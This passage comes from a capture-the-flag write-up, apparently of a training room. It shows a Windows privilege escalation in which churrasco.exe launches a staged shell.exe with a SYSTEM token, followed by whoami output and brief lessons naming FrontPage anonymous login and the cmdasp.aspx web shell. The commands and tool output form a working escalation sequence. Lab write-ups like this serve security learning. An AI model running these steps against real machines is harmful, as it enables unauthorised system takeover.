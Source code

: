 ```ruby
C:\WINDOWS\Temp\privesc>**churrasco.exe -d "C:\WINDOWS\Temp\privesc\shell.exe"**
churrasco.exe -d "C:\WINDOWS\Temp\privesc\shell.exe"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

Then I was root 😎

```ruby
C:\DOCUME~1\Administrator\Desktop>whoami
whoami
nt authority\system

C:\DOCUME~1\Administrator\Desktop>typ root.txt
```

## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about Frontpage extension anonymous login.
    
- Were there any novel tools or techniques employed?
    
    churrasco.exe, and cmdasp.aspx
